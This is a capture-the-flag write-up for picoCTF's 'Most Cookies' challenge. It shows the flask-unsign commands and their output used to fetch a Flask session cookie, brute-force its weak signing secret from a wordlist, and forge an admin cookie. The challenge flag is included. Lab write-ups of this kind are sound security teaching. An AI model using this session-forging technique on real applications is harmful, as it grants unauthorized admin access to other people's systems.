

As hinted in the challenge, flask cookies are not secure. So on searching for ways to access the cookies, I found [flask-unsign](https://pypi.org/project/flask-unsign/) which can be used to decode and encode flask cookies. The flask cookie is signed using a secret key which is stored in the flask app. So we need to find the secret key to decode the cookie. The secret key can be found using a brute force attack. The wordlist used for the brute force attack is a list given in the file [server.py](./server.py)
```py
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```

We can use the following command to decode the cookie and then brute force the secret key.

```ps
(cookiesvenv) PS C:\Users\Arnav\Documents\cryptoniteTP> flask-unsign --decode --server 'http://mercury.picoctf.net:53700/'
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZVIY2w.30VdeN1dZlI3tFiXLex1ExNBV-k
{'very_auth': 'blank'}
(cookiesvenv) PS C:\Users\Arnav\Documents\cryptoniteTP> flask-unsign -u -c 'eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZVIY2w.30VdeN1dZlI3tFiXLex1ExNBV-k' --wordlist Web\mostcookies\wordlist.txt
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
(cookiesvenv) PS C:\Users\Arnav\Documents\cryptoniteTP> flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZVIZHQ.78A_Xj3Xnbb0n6tTn5AB-Pjm69E
```

Now we can use the cookie to get the flag.



Flag: `picoCTF{pwn_4ll_th3_cook1E5_3646b931}`